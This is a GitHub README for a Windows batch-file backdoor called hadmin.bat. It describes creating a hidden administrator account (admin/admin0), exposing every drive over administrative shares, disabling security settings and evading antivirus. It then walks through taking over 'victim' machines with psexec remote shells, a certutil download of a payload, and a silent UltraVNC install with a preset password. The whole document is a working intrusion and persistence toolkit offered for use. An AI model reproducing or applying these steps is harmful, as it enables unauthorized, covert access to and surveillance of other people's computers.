


# Natural Backdoor for Windows
# hadmin.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.
# What is it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'admin' user with password 'admin0' into administrators group.
- Hides admin user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.
# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/hadm.bat. From now on the batch file can be run without limitation. 
# Using
The address \\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The admin:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rule for samba access (windows shares), disabling the user account control. 

The script prompts for an alias for the target computer before it finishes running. The nickname entered is saved at the end of the hadmin.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.
# Next Stage: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

# Install VNC Server to Victim

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Download the current version of ultravnc from the website to your computer and rename it to uvncsetup.exe.

## Step 2: Copy uvncsetup.exe to victim computer

Copy the unvcsetup.exe file to the victim's computer's system disk. You can use path '\\victim\c$\' to browse victim computer. If for some reason you cannot view the victim computer, you can also download via the remote shell (psexec) with the following command.

> certutil.exe -urlcache -split -f "https://www.uvnc.eu/download/1240/UltraVNC_1_2_40_X86_Setup.exe" uvncsetup.exe

## Step 3: Start installation 

To start silent installation on victim computer run 'uvncsetup.exe' as remotely using PsExec.exe below:

> psexec \\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files are saved in the %program files%\uvnc directory on victim computer.

## Step 4: Define new password 

Create the ultravnc.ini file with the password defined in the "%programfiles%\uvnc" of the victim computer. 
UltraVNC password is "admin0" defined in ultravnc.ini. The ini file content is below:

[ultravnc]
passwd=56B6ACA18D1BA76008
passwd2=56B6ACA18D1BA76008

Copy the file to "%programfiles%\uvnc" folder on victim computer.

## Step 5: Restart the service

restart the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service

# Some usefull shell commands

Some functional command examples listed below. 
> fsutil fsinfo drives : Get fixed disk drives list.

[cmd cheat sheet](https://github.com/security-cheatsheet/cmd-command-cheat-sheet)

# Uninstall
Just run uhadmin.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.
# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

